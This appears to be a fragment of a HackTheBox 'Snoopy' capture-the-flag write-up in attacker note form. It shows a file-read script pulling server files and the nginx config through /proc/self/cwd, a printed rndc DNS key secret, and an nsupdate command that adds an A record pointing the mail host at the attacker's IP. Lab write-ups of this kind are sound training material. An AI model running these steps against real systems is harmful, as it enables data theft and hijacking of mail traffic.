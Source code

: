 ### Get files under current directory

```bash
./download.sh /proc/self/cwd/index.html
./download.sh /proc/self/cwd/download.php
```


## Check nginx config

```bash
./download.sh /etc/nginx/sites-enabled/default
```

## Download php files from feroxbuster result

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ cat ferox_80.txt|awk '{print $6}'|unfurl paths
/assets/img/favicon.png
/assets/vendor/php-email-form/validate.js
/contact.html
/assets/img/apple-touch-icon.png
/assets/js/main.js
...
```

```bash
for p in $(cat ferox_80.txt|awk '{print $6}'|unfurl paths); do ./download.sh "/proc/self/cwd${p}"; done
```


## Nsupdate load records from file

> rndc-key

```
key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};
```

> dns_mail.txt

```
server snoopy.htb
update add mail.snoopy.htb. 77777 IN A 10.10.16.10
send
```

Command : 

```bash
nsupdate -k rndc-key dns_mail.txt
```




